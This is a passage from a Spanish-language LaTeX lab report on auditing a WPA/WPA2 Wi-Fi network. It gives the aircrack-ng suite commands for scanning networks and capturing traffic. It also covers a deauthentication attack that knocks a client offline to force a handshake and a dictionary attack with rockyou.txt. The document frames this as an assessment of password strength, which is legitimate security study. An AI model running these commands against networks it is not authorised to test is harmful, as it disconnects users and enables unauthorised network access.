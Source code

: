 Con la interfaz en modo monitor, se procedió a escanear las redes disponibles para identificar el punto de acceso objetivo, su canal y su tipo de cifrado:

\begin{lstlisting}[caption={Escaneo de redes inalámbricas}]
sudo airodump-ng wlan0mon
\end{lstlisting}

\paragraph{Captura del handshake}

Una vez identificada la red objetivo, se inició la captura específica de paquetes asociados a dicha red:

\begin{lstlisting}[caption={Captura de tráfico de la red objetivo}]
sudo airodump-ng --c [canal] --bssid [BSSID] -w captura wlan0mon
\end{lstlisting}

Para forzar la generación del \textit{handshake}, se ejecutó un ataque de desautenticación contra un cliente conectado:

\begin{lstlisting}[caption={Ataque de desautenticación}]
sudo aireplay-ng -0 9 -a [BSSID] -c [estación] wlan0mon
\end{lstlisting}

Este procedimiento provocó la desconexión del cliente, quien al reconectarse generó el handshake necesario.

\paragraph{Ataque de diccionario}

Con el archivo de captura generado, se procedió a ejecutar un ataque de diccionario para intentar descifrar la contraseña de la red:

\begin{lstlisting}[caption={Ataque de diccionario con aircrack-ng}]
sudo aircrack-ng -b [BSSID] -w rockyou.txt captura-01.cap
\end{lstlisting}

\subsection{Resultados obtenidos}

Como resultado del ataque, se logró capturar correctamente el \textit{handshake} de autenticación WPA/WPA2.  
El análisis posterior mediante el ataque de diccionario permitió determinar si la clave de seguridad utilizada por la red era vulnerable o suficientemente robusta frente a ataques de fuerza bruta.

